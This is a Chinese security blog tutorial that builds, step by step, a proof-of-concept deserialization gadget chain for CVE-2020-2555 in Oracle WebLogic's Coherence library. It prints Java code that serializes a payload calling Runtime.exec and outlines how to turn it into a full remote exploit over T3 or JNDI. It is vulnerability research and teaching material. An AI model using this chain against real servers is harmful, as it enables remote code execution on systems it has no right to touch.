




# 教你一步一步构造 CVE-2020-2555 POC - Afant1 - 博客园

> 原文：[`www.cnblogs.com/afanti/p/12432831.html`](https://www.cnblogs.com/afanti/p/12432831.html)

> 文章首发在安全客：[`www.anquanke.com/post/id/200384`](https://www.anquanke.com/post/id/200384)

### 1、前言

欸欸欸，不想写论文，起床发现[`www.zerodayinitiative.com/blog/2020/3/5/cve-2020-2555-rce-through-a-deserialization-bug-in-oracles-weblogic-server`](https://www.zerodayinitiative.com/blog/2020/3/5/cve-2020-2555-rce-through-a-deserialization-bug-in-oracles-weblogic-server)爆出 CVE-2020-2555 新的 gadget 细节了，打发打发时间试着写写 POC。本文 POC 构造将会比较详细，挖 JDK gadget 大佬自动略过吧，还有本文只是 POC，不包含 exp，那些想要 exp 的大佬们也直接略过吧，但是你好好读文章构造出 exp 也不是什么难事，最后会给出 exp 的思路。

### 2、gadget 分析思路

漏洞的 gadget 如下，需要导入 coherence.jar，weblogic12.3.6 lib 包下有：

先抛开上面的 gadget 总结一下挖掘 java 反序列化的思路如下：
**挖掘 java 反序列化的思路**
1、首先要找到反序列化入口（source）
2、调用链（gadget）
3、触发漏洞的目标方法（sink）
反序列化漏洞的挖掘，本质上就是一个已知 source 和 sink，如何走通整个调用流程的问题。在这里的 source，可以包括

1.  Java 原生的反序列化，即通过 ObjectInputStream.readObject()，处理二进制格式内容，得到 Java 对象
2.  专有格式的反序列化，例如通过 Fastjson, Xstream 等第三方库，处理 json, xml 等格式内容，得到 Java 对象

**执行目标 sink,包括：**

1.  Runtime.exec()，这种最为简单直接，即直接在目标环境中执行命令
2.  Method.invoke()，这种需要适当地选择方法和参数，通过反射执行 Java 方法
3.  RMI/JNDI/JRMP 等，通过引用远程对象，间接实现任意代码执行的效果

**从 source 出发，递归检查其所有方法调用，如果能够执行到 sink 就是一条 gadget。**
拿这条 gadget 举例，source 入口点是 BadAttributeValueExpException 的 readObject 函数。读个 ysoserial 工具源码的都知道 CommonsCollections5 这条 gadget 就是通过 BadAttributeValueExpException 触发的。sink 点则是 Method.invoke()通过反射方法执行

### 3、POC 构造过程

**构造 poc 首先从 sink 点触发，ReflectionExtractor 类的 extract 函数**

所以构造如下代码是可以弹计算器的：

```
 public static void main(String[] args) {
        Runtime runtime=Runtime.getRuntime();
        ReflectionExtractor reflectionExtractor = new ReflectionExtractor("exec", new String[]{"calc"});
        reflectionExtractor.extract(runtime);
    } 
```

反射方式触发：

再往上回溯，谁触发 extract 函数，这就找到 LimitFilter 类的 toString()方法：

在写段代码：

```
 public static void main(String[] args) {
        Runtime runtime=Runtime.getRuntime();
        ReflectionExtractor reflectionExtractor = new ReflectionExtractor("exec", new String[]{"calc"});
        reflectionExtractor.extract(runtime);
        LimitFilter limitFilter = new LimitFilter();
        limitFilter.setComparator(reflectionExtractor);
        limitFilter.setTopAnchor(runtime);
        limitFilter.toString();
    } 
```

将 runtime 对象赋值给 m_oAnchorTop

```
 limitFilter.setTopAnchor(runtime); 
```


将 reflectionExtractor 赋值给 m_comparator

```
 limitFilter.setComparator(reflectionExtractor); 
```


看图的标注，执行 2 就相当于执行 `reflectionExtractor.extract(runtime)`,就跟 POC1 构造的一样了。

效果就是这样：

在向上回溯，谁触发 LimitFilter 类的 toString()。这也就来到的 source 入口点，通过 BadAttributeValueExpException 的 readObject 函数。读个 ysoserial 工具源码的都知道 CommonsCollections5 这就是通过 BadAttributeValueExpException 触发的。所以要想看明白这里需要先看懂 CommonsCollections5，可以看我博客写的：[`www.cnblogs.com/afanti/p/10199235.html`](https://www.cnblogs.com/afanti/p/10199235.html)，之前读 CommonsCollections5，做的笔记如下：

> 重写了 BadAttributeValueExpException 的 readObject 方法的 val 变量赋值为 BadAttributeValueExpException 类，就会调用 BadAttributeValueExpException 的 val = valObj.toString();

这就好办了，把 val 赋值为 limitFilter 就会调用 limitFilter 的 toString 方法，自此打通了整条 gadgets。
在写一段 POC:

```
 Runtime runtime=Runtime.getRuntime();
        ReflectionExtractor reflectionExtractor = new ReflectionExtractor("exec", new String[]{"calc"});
        LimitFilter limitFilter = new LimitFilter();
        limitFilter.setComparator(reflectionExtractor);
        limitFilter.setTopAnchor(runtime);
BadAttributeValueExpException poc = new BadAttributeValueExpException(null);
        Field valfield = poc.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(poc, limitFilter);

        File f = new File("poc.txt");
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
        out.writeObject(poc);
        out.close(); 
```

然鹅，在执行时会报如下错误，Runtime 这个类没实现序列化接口，小问题：

首先先自定义一个危险类，如下：

```
import java.io.IOException;
import java.io.Serializable;

public class Afanti implements Serializable {
    public void exec(String shell) throws IOException {
        Runtime.getRuntime().exec(shell);
    }
} 
```

完整 POC 如下：

```
 Afanti afanti = new Afanti();
        ReflectionExtractor reflectionExtractor = new ReflectionExtractor("exec", new String[]{"calc"});
        LimitFilter limitFilter = new LimitFilter();
        limitFilter.setComparator(reflectionExtractor);
        limitFilter.setTopAnchor(afanti);
        BadAttributeValueExpException poc = new BadAttributeValueExpException(null);
        Field valfield = poc.getClass().getDeclaredField("val");

        valfield.setAccessible(true);
        valfield.set(poc, limitFilter);

        File f = new File("poc.txt");
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
        out.writeObject(poc);
        out.close(); 
```

调用栈如下，跟文章给的图片一样。


### 4 、思路总结

本文只是教大家怎么写 POC，exp 就不给出来了提一提思路。既然能够执行实现序列化接口类的任意方法，参数可控，exp 构造就不难了。比如：可以找一个类，类的函数有执行代码操作或者文件操作或者反序列化操作又或者 jndi 注入之类的。这样的类一抓一大把，会构造 CVE-2019-2725 的，自然知道 exp 怎么写。写完 exp，通过 t3 协议发包，RCE 一发入魂。最后提醒大家一点要想构造 jndi 的 exp，jdk 版本得选对，要不会遇到很多坑。（想要找危险类的可以试试我写的这篇文章的工具，改改正则：[`www.anquanke.com/post/id/199703`](https://www.anquanke.com/post/id/199703)）

### **参考链接：**

[`www.zerodayinitiative.com/blog/2020/3/5/cve-2020-2555-rce-through-a-deserialization-bug-in-oracles-weblogic-server`](https://www.zerodayinitiative.com/blog/2020/3/5/cve-2020-2555-rce-through-a-deserialization-bug-in-oracles-weblogic-server)
[`www.oracle.com/security-alerts/cpujan2020.html`](https://www.oracle.com/security-alerts/cpujan2020.html)
[`www.cnblogs.com/afanti/p/10199235.html`](https://www.cnblogs.com/afanti/p/10199235.html)